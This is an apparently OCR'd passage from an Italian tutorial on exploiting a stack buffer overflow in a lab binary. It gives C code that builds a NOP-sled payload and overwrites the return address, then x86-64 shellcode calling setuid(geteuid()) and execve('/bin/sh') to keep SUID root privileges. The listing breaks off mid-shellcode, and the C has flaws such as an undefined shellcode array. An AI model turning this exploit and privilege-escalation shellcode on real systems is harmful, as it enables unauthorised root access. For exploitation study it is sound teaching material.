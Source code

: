 ```c
unsigned char* payload[80];

int main() {

    char payload[80];
    // Preparazione payload
    printf("Indirizzo di payload: %p\n", payload);
    memset(payload, 0x90, sizeof(payload)); // NOP sled

    memcpy(payload+16, shellcode, sizeof(shellcode)); // shellcode a offset 16

    void *ret_addr = (void*)(0x7fffffffecc0+2); // puntiamo dritti alla shellcode
    memcpy(payload + 72, &ret_addr, 8); // overwrite di RIP
    
    // Corretto: array di stringhe per gli argomenti
    char *args[] = {"./vuln", payload, NULL};
    execve("./vuln", args, NULL);
    perror("execve");  // Se fallisce, stampa errore
    return 1;
}

```

# Part 2 - Exploit con SUID

Adesso volgiamo sfruttare la vulnerabilità del programma con il **bit SUID attivo,** ereditare i permessi del proprietario del file

### SUID (**Set owner User ID up on execution)**

Il **bit SUID (Set User ID)** è un flag che può essere applicato a un file eseguibile. Quando un programma con SUID attivo viene eseguito, il processo assume i **permessi del proprietario del file**, anziché quelli dell'utente che lo lancia.

## Modifica della Shellcode per mantenere i privilegi

Per fare ciò dobbiamo solamente modificare la shellcode utilizzando la chiamata a funzione `setuid(geteuid())`

Questa chiamata assicura che il processo attivo abbia UID ed EUID uguali, mantenendo i privilegi del binario con SUID.

Per scrivere la shellcode, dobbiamo utilizzare le chiamate sycall, consultando il sito [https://x64.syscall.sh/](https://x64.syscall.sh/) 
Questo sito fornisce l'elenco completo delle syscall per Linux in architettura 64 bit.

```nasm
;geteuid()
    xor rax, rax
    mov al, 107
    syscall

    ; setuid(geteuid())
    mov rdi, rax
    mov al, 105
    syscall

    ; execve("/bin/sh", NULL, NULL)
    xor rax, rax
    mov al, 59
    xor rdi, rdi
    push rdi
    mov rdi, 0x68732f6e69622f2f
    push rdi
```